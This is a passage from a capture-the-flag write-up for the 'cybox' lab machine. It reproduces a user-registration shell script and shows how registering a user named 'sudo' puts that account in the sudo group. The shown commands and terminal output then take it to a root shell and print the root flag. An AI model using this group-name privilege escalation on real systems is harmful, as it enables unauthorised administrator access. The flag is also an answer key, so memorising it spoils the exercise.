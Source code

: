 ```bash
    exit 1
if [[ "$USERNAME" =~ [^a-z] ]]; then
   /bin/echo -e "Think twice before putting something :)"
   exit 0
if /usr/bin/id "$USERNAME" >/dev/null 2>&1; then
    /bin/echo -e "User already exists :("
    exit 0
if [ ! "$(/bin/cat /etc/group | /bin/grep -w "$USERNAME")" ]
then
    /usr/sbin/groupadd "$USERNAME" 2>/dev/null
/usr/sbin/useradd -p "$(/usr/bin/openssl passwd -1 "$USERNAME")" -m "$USERNAME" -g "$USERNAME" -s /bin/bash 2>/dev/null
/usr/bin/maildirmake /home/"$USERNAME"/Maildir/ -R 2>/dev/null
/bin/chown "$USERNAME":"$USERNAME" /home/"$USERNAME"/Maildir/ -R 2>/dev/null
if [ $? -eq 0 ]; then
    /bin/echo -e "$USERNAME@cybox.company has been created successfully. The credentials are $USERNAME:$USERNAME. You should change your default password for security."
else
    /bin/echo -e "The string must contain a maximum of 32 characters."
```
This code creates a user and adds it to the group with the same name. So we need to create a user with help of it we can elevate the privileges. i.e sudo.

Now register the user `sudo`.
```
aemon@cybox:/opt$ ./registerlauncher sudo
sudo@cybox.company has been created successfully. The credentials are sudo:sudo. You should change your default password for security.
daemon@cybox:/opt$ su sudo
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sudo@cybox:/opt$ sudo -l
[sudo] password for sudo: 
Matching Defaults entries for sudo on cybox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sudo may run the following commands on cybox:
    (ALL : ALL) ALL
sudo@cybox:/opt$ sudo /bin/bash
root@cybox:/opt# ls
bitnami  register  registerlauncher
root@cybox:/opt# cd /root
root@cybox:/root# ls
Maildir  root.txt
``` 
# Root Flag
```
root@cybox:/root# cat root.txt 
4c0183fdd736e2b8fb3f57ddbfa8ce36
```
